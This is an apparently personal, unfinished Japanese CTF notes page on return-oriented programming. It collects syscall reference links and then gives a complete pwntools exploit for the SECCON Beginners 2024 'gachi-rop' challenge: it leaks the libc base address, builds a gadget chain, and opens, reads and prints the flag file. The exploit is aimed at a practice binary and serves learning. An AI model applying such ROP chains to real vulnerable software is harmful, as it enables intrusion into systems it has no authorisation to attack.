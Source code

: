 # ROP

# Linux x86 (x64) syscall
- https://www.mztn.org/lxasm64/x86_x64_table.html#google_vignette
- https://manpages.ubuntu.com/manpages/noble/ja/man2/syscall.2.html
- https://manpages.ubuntu.com/manpages/noble/ja/man2/syscalls.2.html
- https://manpages.ubuntu.com/manpages/noble/ja/man2/open.2.html
- https://manpages.ubuntu.com/manpages/noble/ja/man2/read.2.html
- https://manpages.ubuntu.com/manpages/noble/ja/man2/write.2.html
- https://manpages.ubuntu.com/manpages/noble/ja/man2/close.2.html
- https://manpages.ubuntu.com/manpages/noble/ja/man2/getdents.2.html
- https://manpages.ubuntu.com/manpages/noble/ja/man2/exit.2.html
- [呼出規約](https://ja.wikipedia.org/wiki/%E5%91%BC%E5%87%BA%E8%A6%8F%E7%B4%84)

# SECCON_Beginners_CTF_2024/pwnable/gachi-rop
- https://gitlab.mma.club.uec.ac.jp/mmabeginners/seccon-beginners-ctf-2024/-/blob/main/pwnable/gachi-rop/README.md
- https://github.com/satoki/ctf4b_2024_satoki_writeups/tree/main/pwnable/gachi-rop
- https://kashiwaba-yuki.com/ctf-pwn-gachi-rop

```bash
sudo apt install patchelf -y
```
## 解法 (TODO: 作成中)
```python
#!/usr/bin/env python3
from pwn import *
exe = context.binary = ELF(args.EXE or './gachi-rop')
# Use the specified remote libc version unless explicitly told to use the
# local system version with the `LOCAL_LIBC` argument.
# ./exploit.py LOCAL LOCAL_LIBC
if args.LOCAL_LIBC:
    libc = exe.libc
else:
    library_path = libcdb.download_libraries('libc.so.6')
    if library_path:
        exe = context.binary = ELF.patch_custom_libraries(exe.path, library_path)
        libc = exe.libc
    else:
        libc = ELF('libc.so.6')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)
gdbscript = '''
tbreak main
tbreak *main+134
continue
'''.format(**locals())
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# Stripped:   No
io = start()
io.recvuntil(b'system@')
system_addr = int(io.readline().strip(), 16)
libc.address = system_addr - libc.symbols['system']
log.info("system addr: " + hex(system_addr))
log.info("libc base addr: " + hex(libc.address))
# payload = cyclic(300)
# log.info("offset: " + str(cyclic_find("gaaahaaa")))
# 0x0000000000045eb0: pop rax; ret;
pop_rax = 0x0000000000045eb0 + libc.address
# 0x000000000002a3e5 : pop rdi ; ret
pop_rdi = 0x000000000002a3e5 + libc.address
# 0x000000000002be51 : pop rsi ; ret
pop_rsi = 0x000000000002be51 + libc.address
# 0x000000000011f2e7 : pop rdx ; pop r12 ; ret
pop_rdx_pop_r12 = 0x000000000011f2e7 + libc.address
# 0x000000000003d1ee : pop rcx ; ret
pop_rcx = 0x000000000003d1ee + libc.address
# 0x0000000000041563 : push rax ; ret
push_rax = 0x0000000000041563 + libc.address
# 0x0000000000029db4 : syscall
syscall = 0x0000000000029db4 + libc.address
# pwndbg> rop --grep 'mov qword ptr \\[...], ... ; ret' -- --depth=4
# 0x0000000000039bf7 : mov qword ptr [rax], rdx ; ret
# 0x000000000018d560 : mov qword ptr [rcx], rdx ; ret
mov_ptr_rcx_rdx = 0x000000000018d560 + libc.address
# 0x00000000000bfc76 : mov qword ptr [rdi], rcx ; ret
# 0x00000000000bfc63 : mov qword ptr [rdi], rdx ; ret
# 0x000000000003a410 : mov qword ptr [rdx], rax ; ret
mov_ptr_rdx_rax = 0x000000000003a410
# 0x00000000000b0fc1 : mov qword ptr [rdx], rcx ; ret
# 0x0000000000141c51 : mov qword ptr [rsi], rdi ; ret
# 0x000000000005652a : mov qword ptr [rsi], rdx ; ret
# pwndbg> rop --grep 'mov r.., r.. ; ret' -- --depth 4
# 0x0000000000040772 : mov rax, r10 ; ret
# 0x00000000000abc5c : mov rax, r11 ; ret
# 0x000000000005a171 : mov rax, rdi ; ret
# 0x00000000000546ad : mov rax, rdx ; ret
# 0x000000000005a0b8 : mov rax, rsi ; ret
# 0x000000000005a120 : mov rsp, rdx ; ret

# 0x000000000014a1b5 : xchg edi, eax ; ret
xchg_edi_eax = 0x000000000014a1b5 + libc.address;

# syscall#: rax, retval: rax
# arg#: rdi rsi rdx r10 r8 r9 

# ssize_t read(int fd, void *buf, size_t count); # syscall#: 0
# int open(const char *buf, int flags); # syscall#: 2
# fd = open(buf, O_RDONLY)
# ssize_t getdents64(int fd, void *dirp, size_t count); # syscall#: 217
# getdents64(fd, out, count)
# ssize_t write(int fd, const void *buf, size_t count); # syscall#: 1
# write(0, buf, count)
# void _exit(int status);

# 0x404000           0x405000 rw-p     1000   3000 /mnt/e/work/ctf/SECCON_Beginners_CTF_2024/pwnable/gachi-rop/gachi-rop
buf = 0x404000
payload = (
    b'A'*24 +
    # write "flag.txt" to 0x404000
    p64(pop_rcx) + p64(buf) +
    p64(pop_rdx_pop_r12) + b'/flag.tx' + p64(0xdeadbeefcafebabe) +
    p64(mov_ptr_rcx_rdx) +
    # write "\x00"*8 to 0x404008
    p64(pop_rcx) + p64(buf+0x8) +
    p64(pop_rdx_pop_r12) + b't' + b'\x00'*7 + p64(0xdeadbeefcafebabe) +
    p64(mov_ptr_rcx_rdx) +
    # syscall#: rax, retval: rax
    # arg#: rdi rsi rdx r10 r8 r9 
    # int open(const char *buf, int flags); # syscall#: 2
    p64(pop_rdi) + p64(buf) + # arg1
    p64(pop_rsi) + p64(0) + # arg2
    p64(libc.symbols['open']) +
    # ssize_t read(int fd, void *buf, size_t count); # syscall#: 0
    p64(xchg_edi_eax) + # arg1
    p64(pop_rsi) + p64(buf+0x100) + # arg2
    p64(pop_rdx_pop_r12) + p64(50) + p64(0xdeadbeefcafebabe) + # arg3
    p64(libc.symbols['read']) +
    # int close(int fd);
    p64(pop_rdi) + p64(0) + # arg1
    p64(libc.symbols['close']) +
    # write(0, buf, count)
    p64(pop_rdi) + p64(1) + # arg1
    p64(pop_rsi) + p64(buf+0x100) + # arg2
    p64(pop_rdx_pop_r12) + p64(50) + p64(0xdeadbeefcafebabe) + # arg3
    p64(libc.symbols['write']) +
    # int close(int fd);
    p64(pop_rdi) + p64(1) + # arg1
    p64(libc.symbols['close']) +
    # void _exit(int status);
    p64(pop_rdi) + p64(0) + # arg1
    p64(libc.symbols['exit'])
)
io.sendlineafter(b'Name: ', payload)
log.info(io.recvall().decode(errors="ignore"))
#io.interactive()
```
